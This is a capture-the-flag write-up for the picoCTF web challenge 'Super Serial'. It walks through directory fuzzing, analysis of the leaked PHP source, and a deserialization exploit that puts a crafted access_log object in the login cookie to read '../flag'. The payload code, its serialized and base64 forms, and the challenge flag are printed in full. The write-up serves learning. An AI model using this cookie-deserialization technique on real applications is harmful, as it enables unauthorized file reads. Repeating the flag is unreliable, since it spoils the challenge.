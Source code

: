 # PHP Deserialization Injection
* Name: Super Serial
* Category: Web 
* Technique: `PHP Deserialization Injection`
* Hint: `The flag is at ../flag`
## Solution 
* Overview the challenge have a login form 
![image](https://user-images.githubusercontent.com/79050415/152352808-604d5a55-b4bd-453d-bc81-b58ade06ee9d.png)
* Initial reconnaissance
* The first i look at login form i think its `sql injection` but i used some payloads its response error, but name of the challenges `Super Serial` i gessing its `Deserialization`
* All challenges i solved always have attachment source code but this challenge must fuzzing found source code, i used `dirsearch` for fuzzing 
![image](https://user-images.githubusercontent.com/79050415/152356327-9c58ddd6-e844-4864-bf66-68569fd4f974.png)
* I found other pages 
```c
index.php
cookie.php
authentication.php
index.php
cookie.php
authentication.php
```
* I cant access this page i must add `s` because i access `robots.txt` its hint for me
![image](https://user-images.githubusercontent.com/79050415/152357593-2e3414d5-bff9-47a7-847a-8728722ee51e.png)
* After i access other pages i found a source code 
## Source Code Analysis
* `index.phps`
```c
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
?>
```
* `user` and `pass` used `POST` method 
* username and password assign variable `$perm_res` for authenticate
* if `$perm_res->is_guest()` and `$perm_res->is_admin()` are true `cookie` will create header `Location` set value equal `authentication.php` then its direct from login page to `welcome` page 
* `setcookie` `login` its created by serialize `$perm_res` variable then ` base64` and `urlencode` 
* `cookie.phps`
```c
<?php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}

        function is_admin() {
                $admin = false;

                $con = new SQLite3("../users.db");
                $username = $this->username;
                $password = $this->password;
                $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                $stm->bindValue(1, $username, SQLITE3_TEXT);
                $stm->bindValue(2, $password, SQLITE3_TEXT);
                $res = $stm->execute();
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
}

if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
 ```
 * The function `is_admin()` and ` is_guest()` are same check attribute username and password of `permission` class by query to database `users.db` because 2 function used `prepared statements` and `parameterized queries` so exploit sql injection is impossiable 
 * `IF` block code check cookie of `login` if serialize true its response flag and false its response message `Deserialization error`
 * `authentication.phps`
 ```c
 <?php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```
* Class `access_log` have 2 magic methods `__construct` and `__toString`. Method `__toString` response `read_log()`, `read_log()` will response content of file and transmisson ` constructor` of `access_log` class via ` file_get_contents` + Magic method wil execute when class create, therefore i created an object `access_log` 
```c
<?php

class access_log {
	public $log_file;
}

$object = new access_log;

$object->log_file = "../flag";

$serializedObject = serialize($object);

echo $serializedObject;

?>
```
* The script when i run 
![image](https://user-images.githubusercontent.com/79050415/152373825-40d495e7-8d98-40c5-a1a0-1a4ce1041f1d.png)
```c
O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}
```
* After that i encode payload above to base64 
```c
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```
![image](https://user-images.githubusercontent.com/79050415/152377105-484a584a-6414-42f5-acf9-fa829d09ff4d.png)
* I change `name` and `value` of `cookies` 
![image](https://user-images.githubusercontent.com/79050415/152379335-6ab4f2d9-59d2-433a-8c70-c5fa95a4fc37.png)
* Finally i found a flag =)))
![image](https://user-images.githubusercontent.com/79050415/152379613-bd3c0580-6527-4f4c-96d0-b8da7a9a7d34.png)
 * FLAG `picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_8db8f85c}`




